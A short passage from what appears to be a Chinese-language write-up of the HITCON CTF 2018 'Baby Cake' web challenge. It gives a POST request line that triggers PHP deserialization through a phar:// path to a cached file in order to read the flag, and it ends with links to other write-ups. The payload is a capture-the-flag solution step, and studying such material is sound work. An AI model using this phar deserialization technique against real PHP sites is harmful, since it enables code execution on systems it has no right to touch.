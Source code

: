 通过 POST 请求触发反序列化，读取 flag
```http
POST /?url=http://xx.xx.xxx.xx&data[s]=@phar:///../tmp/cache/mycache/172.17.0.1/e494da96585eefa8b3cb4f98309d389b/body.cach
```

## References
[Hitcon 2018 Web - Oh My Raddit / Baby Cake 题解](https://xz.aliyun.com/t/2961)

[HITCON CTF 2018 Web](http://blog.kaibro.tw/2018/10/24/HITCON-CTF-2018-Web/)